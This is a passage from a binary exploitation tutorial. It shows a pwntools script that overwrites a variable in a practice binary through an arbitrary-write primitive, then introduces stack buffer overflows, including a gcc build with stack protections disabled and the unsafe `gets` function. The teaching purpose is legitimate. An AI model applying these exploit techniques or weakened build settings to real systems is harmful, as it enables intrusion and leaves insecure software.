 ```python
from pwn import*

binary_name = "arb_write"

e = ELF(binary_name)
p = process(binary_name)
p.send(p64(e.symbols.secret_value))
p.recvuntil(b"another number!")
p.send(p32(0xdeadbeef))
p.interactive()
```

> This program has back-to-back reads which expect separate values. Running two `p.send()` commands in sequence will likely result _all values sent being read in the first call_. For that reason we must make sure to sync with the binary by waiting for the second prompt before sending it.

Running the program shows that `secret_value`'s value was modified, and we passed the condition!

Like reads, writes can be bounded and unbounded. It's not uncommon to see primitives such as single null byte overflow (due to bad string length calculation when null-terminating a string) that are turned into full RCE. In the next section we will get experience with one of the quintessential memory corruption vulnerabilities: a stack buffer overflow.

## Practical Example - Stack Buffer Overflows

Stack buffer overflows were thrust into the spotlight in the mid-nineties when Aleph One published their [Smashing The Stack For Fun And Profit](http://phrack.org/issues/49/14.html) Phrack article. The stack buffer overflow was so pervasive and powerful that the stack canary mitigation was introduced and adopted as a baseline standard in modern compilers. Furthermore, the `gets` function, called out specifically by Aleph One, is now flagged in its own `man` page and by `gcc` as vulnerable.

```
gets(3)                                                                                Library Functions Manual                                                                                gets(3)

NAME
       gets - get a string from standard input (DEPRECATED)

LIBRARY
       Standard C library (libc, -lc)

SYNOPSIS
       #include <stdio.h>

       [[deprecated]] char *gets(char *s);

DESCRIPTION
       Never use this function.
```

```console
$ gcc stack.c -o stack -no-pie -fno-stack-protector -fno-pic
/usr/bin/ld: /tmp/ccMZqxy2.o: in function `greet':
stack.c:(.text+0x44): warning: the `gets' function is dangerous and should not be used.
```
